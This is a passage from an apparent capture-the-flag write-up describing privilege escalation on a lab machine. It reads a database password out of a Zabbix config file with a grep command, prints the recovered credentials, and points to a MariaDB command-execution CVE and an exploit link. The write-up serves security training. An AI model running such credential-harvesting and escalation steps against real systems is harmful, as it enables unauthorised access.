 ## Escalating privileges \[ root ]

#### linpeas.sh

```bash
root        1279  0.0  0.0   2608  1856 ?        S    Nov13   0:00 /bin/sh /usr/bin/mysqld_safe
root        1431  0.7  3.7 1727148 150636 ?      Sl   Nov13   6:13  _ /usr/sbin/mysqld --basedir=/usr --datadir=/var/lib/mysql --plugin-dir=/usr/lib/x86_64-linux-gnu/mariadb19/plugin --user=root --skip-log-error --pid-file=/run/mysqld/m
ysqld.pid --socket=/var/run/mysqld/mysqld.sock
```

* Hmmm, MySQL is running as root, let's enumerate
* So the DB information was stored in `/etc/zabbix/zabbix_server.conf`

```bash

ipmi-svc@shibboleth:/etc$ cat /etc/zabbix/zabbix_server.conf | grep -C 2 -i "password"
<zabbix/zabbix_server.conf | grep -C 2 -i "password"
DBUser=zabbix

### Option: DBPassword
#	Database password.
#	Comment this line if no password is used.
#
# Mandatory: no
# Default:
DBPassword=bloooarskybluh

```

* Now we have the username and password \[ zabbix : bloooarskybluh ]

#### MySQL enumeration

* As `ipmi-svc` user was not in the sudoers list GTFO bins is not helpful

```bash
ipmi-svc@shibboleth:/etc$ mysql -V
mysql -V
mysql  Ver 15.1 Distrib 10.3.25-MariaDB, for debian-linux-gnu (x86_64) using readline 5.2
```

* So the version is : 10.3.25

![image](https://user-images.githubusercontent.com/56447720/141776051-2b5f54fd-50e6-4a8d-8771-d51f34fa1aa0.png)

* Link : https://www.cvedetails.com/vulnerability-list/vendor\_id-12010/Mariadb.html
* The first CVE has 9.0 score \[ CVE-2021-27928 ]
* Let's get the root

![image](https://user-images.githubusercontent.com/56447720/141776421-4de72d0d-1aca-410f-840f-df8b7926803a.png)

* Link : https://packetstormsecurity.com/files/162177/MariaDB-10.2-Command-Execution.html
